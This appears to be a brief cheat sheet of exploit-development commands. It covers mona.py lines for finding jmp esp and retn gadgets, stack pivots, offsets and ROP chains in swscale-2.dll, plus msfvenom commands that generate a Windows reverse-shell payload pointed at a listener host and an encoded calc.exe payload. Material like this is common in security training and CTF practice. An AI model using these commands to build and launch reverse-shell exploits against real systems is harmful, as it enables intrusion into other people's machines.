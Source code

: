 ## mona

* set working folder:  
`!mona config -set workingfolder c:\logs\%p`

* find instruction (i.e. "jmp esp") using mona:  
`!mona find -type instr -s "jmp esp"`

* find in module, excluding bad chars  
`!mona find -type instr -s "retn" -m swscale-2.dll -cpb '\x00\x5c\x40\x0d\x0a'`

* find with wildcards  
`!mona findwild -s "push r32#*#pop eax#inc eax#*#retn"`

* calculate addresses offset   
`!mona offset -a1 <end address> -a2 <start address>`

* find stack-pivoting gadgets   
`!mona stackpivot -distance 3212 -cpb '\x00\x5c\x40\x0d\x0a'`

* generate rop-chains (single/multiple modules)  
`!mona rop -m swscale-2.dll -cpb '\x00\x5c\x40\x0d\x0a'`
`!mona rop -m "module1, module2" -cpb '\x00\x5c\x40\x0d\x0a'`

## misc
* shellcode generation using msfvenom (reverse shell)
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.223 LPORT=8888 -f py -b "\x00\x0a\x0d\x20\x26\x2a\xd9\x74\x24\xf4"`

* shellcode generation using msfvenom (calc.exe)  
`msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f python --bad-chars '\x00\x5c\x40\x0d\x0a'`
